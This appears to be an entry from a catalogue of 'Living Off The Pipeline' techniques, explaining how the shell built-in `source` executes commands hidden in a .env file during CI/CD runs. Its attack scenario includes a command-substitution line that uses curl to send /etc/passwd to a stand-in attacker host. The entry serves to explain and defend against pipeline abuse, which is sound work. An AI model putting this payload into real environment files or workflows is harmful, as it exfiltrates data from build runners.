 ```yaml
---
layout: tool
title: source
tags: [shell, built-in, eval-sh]
references:
- https://www.gnu.org/software/bash/manual/html_node/Bash-Builtins.html#index-source
files: [any]
---
```


## Living Off The Pipeline - source (and .)

`source` (and its POSIX-compliant alias, `.`) is a shell built-in used to execute commands from a file within the current shell context. It is commonly used in CI/CD pipelines to load environment variables, making it a powerful "Living Off The Pipeline" (LOTP) vector.

### First-Order LOTP Tool

`source` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by design, as its purpose is to execute the content of a file provided by the attacker.

#### Malicious Primitive: Remote Code Execution (RCE)

The attack vector is the file that is being sourced. A developer using `source .env` in a pipeline intends to load simple key-value pairs as environment variables. However, the shell will parse and execute *any* valid shell command within that file.

An attacker can embed malicious commands, often using command substitution (`$(...)` or `` `...` ``), inside a file that looks like a standard environment file. When the `source` command is executed, the shell executes the attacker's payload.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request with a malicious `.env` file.
    ```bash
    # .env file
    # This looks like a variable assignment, but it contains a malicious payload.
    API_KEY=$(curl --data-binary @/etc/passwd http://attacker.com/)
    ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard and seemingly safe command to load variables.
    ```yaml
    - name: Load environment
      run: source .env
    ```

3.  **Execution:**
    *   The `source .env` command is executed.
    *   The shell reads the `.env` file to execute its content.
    *   To assign the value to `API_KEY`, the shell must first execute the command inside the `$(...)`.
    *   The attacker's `curl` command runs, exfiltrating data from the runner.

This attack is dangerous because it preys on the developer's assumption about the content of the file being sourced. The CI/CD command is benign, but the file it operates on is the weapon.